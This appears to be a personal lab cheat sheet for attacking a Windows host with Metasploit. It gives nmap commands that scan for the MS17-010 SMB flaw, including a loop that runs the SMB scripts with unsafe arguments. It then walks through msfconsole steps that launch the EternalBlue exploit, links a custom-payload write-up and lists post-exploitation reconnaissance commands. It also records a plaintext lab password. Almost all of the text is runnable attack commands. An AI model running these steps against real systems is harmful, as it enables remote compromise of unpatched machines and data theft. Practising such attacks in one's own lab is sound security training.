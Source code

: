### MetaSploit - 1

Windows Domain Server Setup:
Passwd:Vpn!123

namp: Check if the sys is vul to ms17
```
cd /usr/share/nmap/scripts
ls -lah | grep smb-
sudo nmap -sV -p 445 -O --script=smb-vuln-ms17-010.nse 10.0.2.5
```
OR
```
target=10.0.2.5
p=445          
scriptargs='smbpass=','smbdomain=mydomain.com','unsafe=1'
for script in $(ls smb* | grep -v -e brute -e flood); do echo "=== $script ==="; sudo nmap $(echo $target) -script=$script -script-args="${scriptargs}" -p $p| grep "|" ; done
```


```linux
┌──(root㉿kali)-[/home/kali]
└─# msfconsole

msf6 > search ms17
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 > set RHOST 10.0.2.5
msf6 > run
```




### Links:
- Exploit Eternal Blue (MS17–010) for Window 7 and higher (custom payload)
https://infosecwriteups.com/exploit-eternal-blue-ms17-010-for-window-7-and-higher-custom-payload-efd9fcc8b623



---
Cmds to check win user info:
```
net user 
net user user1
systeminfo
getuid

To get the hotfix run privi powershell:
Get-Hotfix -id KB3192137
```
